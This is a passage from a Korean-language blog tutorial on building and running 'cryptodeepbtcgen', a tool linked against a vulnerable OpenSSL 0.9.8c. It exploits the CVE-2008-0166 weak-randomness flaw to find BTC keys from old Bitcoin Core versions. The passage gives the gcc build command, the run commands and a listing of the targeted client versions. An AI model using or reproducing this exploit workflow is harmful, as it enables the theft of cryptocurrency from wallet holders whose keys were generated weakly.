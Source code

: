 ls -lh
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/a80/061/cff/a80061cffc581eb46cb2f1b9a11dd259.png" alt="심각한 취약점 OpenSSL 0.9.8 CVE-2008-0166이 있는 Bitcoin Core의 이전 버전에서 BTC 코인 검색"/></figure>



<h2>편집:</h2>



<pre class="wp-block-code"><code>gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

ls -lh
</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/c70/338/b5e/c70338b5ee1f6991711f03d09c4e2932.png" alt="cryptodeepbtcgen이 성공적으로 생성되었습니다!" title="cryptodeepbtcgen이 성공적으로 생성되었습니다!"/><figcaption class="wp-element-caption">cryptodeepbtcgen이 성공적으로 생성되었습니다!</figcaption></figure>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/b60/1a6/941/b601a69413aacc3e9efa10ef0fb084fb.png" alt="심각한 취약점 OpenSSL 0.9.8 CVE-2008-0166이 있는 Bitcoin Core의 이전 버전에서 BTC 코인 검색"/></figure>



<h2>지원되는 모든 버전의 Bitcoin Core 소프트웨어 클라이언트:</h2>



<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l</code></pre>



<figure class="wp-block-image"><img src="https://habrastorage.org/r/w1560/getpro/habr/upload_files/77a/b0d/f5b/77ab0df5baf110bd11c89ccebba0791d.png" alt="심각한 취약점 OpenSSL 0.9.8 CVE-2008-0166이 있는 Bitcoin Core의 이전 버전에서 BTC 코인 검색"/></figure>



<pre class="wp-block-code"><code>crypto &gt; LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l
#0   - 0.3.24
#1   - 0.8.6-d
#2   - 0.8.6-qt
#3   - 0.9.1-d
#4   - 0.9.4-d
#5   - unknownA
#6   - unknownB
#7   - unknownC
#8   - unknownD
#9   - unknownE
#10  - unknownF
#11  - unknownG
#12  - unknownH
#13  - unknownI
#14  - unknownJ
#15  - unknownK
#16  - unknownA0
#17  - unknownA1
#18  - unknownA2
#19  - unknownA3
#20  - unknownA4
#21  - unknownB0
#22  - unknownB1
#23  - unknownB2
#24  - unknownB3
#25  - unknownC0